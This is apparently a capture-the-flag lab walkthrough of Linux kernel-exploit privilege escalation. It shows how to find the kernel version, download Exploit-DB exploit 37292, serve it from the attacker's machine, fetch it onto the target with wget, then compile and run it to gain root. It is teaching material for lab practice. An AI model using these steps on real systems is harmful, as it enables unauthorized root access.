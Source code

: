## Task 5: Privilege Escalation Kernel Exploits 

**<u>Find and use the appropriate kernel exploit to gain root privileges on the target system.</u>** 
Terminate your previous machine. Now, let's go through the steps of the Kernel exploit Methodology.

<u>1. Identify the kernel version.</u>
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/85w4txccmx6c7f2x4dtv.png)
 
<u>2. Search and find an exploit code for the kernel version of the target system.</u>
This we can find with some quick Googling. [Download the exploit](https://www.exploit-db.com/exploits/37292) and move it into your `/tmp` folder.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/zlou4yd7ji5f6owqlu9b.png)
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/vifpsx6s0v7vdsmhn9zv.png)

We can also get it via [searchploit](https://www.exploit-db.com/searchsploit).
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/c6f9k7ozrwgzr4rpj3n3.png)
 
**<u>What is the content of the flag1.txt file?</u>**
<u>3. Run the exploit.</u>
Okay, open up the terminal on your local machine, and start up the machine in Attackbox. In Attackbox, let's run the `id` command and take note of our current user privilege.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/uc09zovvzfpnp2mlks4f.png)
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/r9h3ol8qyt14gg9kk4zb.png)

On your local machine, we need to start up a python server so that we can send our downloaded exploit to our target machine in Attackbox. We can do this via the `python3 -m http.server 8000` command. Don't close this terminal.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/en7rzr1l3xuqlx1qv9i2.png)

Open up a new tab/terminal so that we can get the IP address of our local machine. We need this to connect to our target machine. Use the `ifconfig` command and scroll down.  
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pt8hh5m40lh8icwp2gr4.png)

Cool, now we can go ahead and send our exploit that we downloaded and stored in our /tmp file to our target machine. Go to your Attackbox and first cd into your /tmp folder before connecting to your local machine. 
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/1dbma5vzo2ug81dr33hb.png)
 
If you don't cd into /tmp first then you will get an error when trying to connect. Now, to send the exploit and make a connection we can enter the following command (replace the IP with your ifconfig IP) `wget http://yourip:8000/37292.c`.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/fnqdzjoc9n64laszm4p4.png)

Okay, the exploit is sent. Now to convert it, we can enter the following command `gcc 37292.c -o pwned`. With our exploit converted, we can run it via the `./pwned` command.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/yxkbfeju37ifyznm801c.png)
